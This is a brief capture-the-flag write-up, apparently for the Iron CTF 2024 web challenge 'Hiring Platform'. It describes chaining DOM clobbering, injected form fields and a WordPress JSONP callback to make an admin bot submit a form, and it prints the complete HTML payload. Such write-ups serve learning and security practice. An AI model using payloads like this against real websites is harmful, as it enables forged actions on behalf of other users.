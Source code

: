 # Hiring Platform

using dom clobbering to turn on production mode and using html injection to inject a parameter in the form and using jsonp endpoint of wordpress site present in /blog we get make the bot click on the button and get the flag in our account.

```html
<a id="PRODUCTION"></a>
<input type="text" name="remark" value="SELECT NOW!!" form="select_humans">
<iframe srcdoc="<script src='/blog/wp-json/wp/v2/users/1?_jsonp=window.parent.document.body.firstElementChild.nextElementSibling.nextElementSibling.firstElementChild.submit'>
</script>"></iframe>
```

Detailed Writeup: [Hiring Platform](https://abdulhaq.me/blog/iron-ctf-2024/#web-hiring-platform)
